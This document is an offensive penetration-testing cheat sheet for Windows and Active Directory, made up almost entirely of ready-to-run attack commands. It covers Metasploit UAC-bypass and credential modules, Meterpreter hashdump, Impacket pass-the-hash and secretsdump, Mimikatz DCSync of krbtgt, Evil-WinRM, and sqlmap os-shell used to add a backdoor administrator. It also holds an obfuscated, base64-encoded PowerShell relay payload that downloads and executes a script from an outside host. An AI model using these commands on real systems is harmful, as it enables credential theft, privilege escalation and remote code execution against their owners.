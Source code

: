 # Cheat Sheet - Exploitations and Shell

## Table of Content

* [Metasploit](#Metasploit)
* [Impacket](#Impacket)
* [Mimikatz](#Mimikatz)
* [Evil-WinRM](#Evil)
* [SQLMap](#SQLMap)
* [Relay Hash](#Relay)
* [PrintSpoofer](#Spoofer)
* [PSSession](#Session)
* [PsExec](#Exec)

### Metasploit<a name="Metasploit"></a>

```bash
auxiliary/scanner/portscan/tcp
exploit/multi/script/web_delivery
exploit/windows/local/bypassuac_fodhelper
post/windows/gather/credentials/enum_laps

meterpreter > load powershell
meterpreter > load incognito
meterpreter > load kiwi
meterpreter > hashdump

meterpreter > execute -H -f notepad
Process 3400 created.
meterpreter > migrate 3400
```

### Impacket<a name="Impacket"></a>
```bash
# Normal Usage
python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@dc03.sinhack.com -hashes "aad3b435b51404eeaad3b435b51404ee:5f3421ca3b673adfdc2418f368ca3760" -target-ip 192.168.x.x
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py sinhack.com/administrator@dc01.dev.sinhack.com -hashes "aad3b435b51404eeaad3b435b51404ee:0264d5b0a74d30f13f1fec243e8ac3cb" -target-ip 172.16.10.12 -dc-ip 172.16.10.11
proxychains python3 /usr/share/doc/python3-impacket/examples/secretsdump.py v0lk3n@sinhack.com -target-ip 172.16.x.x

# With Kerberos Authentication
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py SINHACK.COM/v0lk3n@dc01.sinhack.com -k -no-pass -debug
proxychains python3 /usr/share/doc/python3-impacket/examples/secretsdump.py sinhack.com/v0lk3n@DC01.SINHACK.COM -k -no-pass
```

### Mimikatz<a name="Mimikatz"></a>

```bash
mimikatz # privilege::debug

mimikatz # lsadump::dcsync /domain:sinhack.com /user:krbtgt
mimikatz # lsadump::dcsync /domain:sinhack.com /user:Administrator
mimikatz # lsadump::dcsync /domain:sinhack.com /user:sinhack\Administrator

```

### Evil WinRm<a name="Evil"></a>

```bash
sudo gem install evil-winrm

proxychains evil-winrm -i 172.16.x.x -u v0lk3n -H NT_HASH
proxychains evil-winrm -i 172.16.x.x -u v0lk3n -H 6DB6CFDF45964A02A80E85A7AB9F4314
```

### SQLMap<a name="SQLMap"></a>

```bash
sqlmap -u 'TARGET_URL' --batch --dbs
sqlmap -u 'TARGET_URL' --os-shell --flush-session

os-shell> net user /add v0lk3n Fucked123!
do you want to retrieve the command standard output? [Y/n/a] n
os-shell> net localgroup administrators v0lk3n /add
do you want to retrieve the command standard output? [Y/n/a] n
```

### Relay Hash<a name="Relay"></a>

```bash
sudo responder -I tun0
sudo proxychains impacket-ntlmrelayx --no-http-server -smb2support -t 172.16.x.x -c 'powershell -enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANAA5AC4AMQAxADIAOgA4ADAAOAAwAC8AcABzAHIAdQBuAG4AZQByAC4AdAB4AHQAJwApAA=='
```

### PrintSpoofer<a name="Spoofer"></a>

```bash
PrintSpoofer64.exe -i -c cmd.exe
```

###PSSession<a name="Session"></a>

```bash
Enter-PSSession -Computer secret01.dev.sinhack.com
```

### PsExec<a name="Exec"></a>

```bash
PsExec64.exe \\jump09.ops.comply.com cmd
```
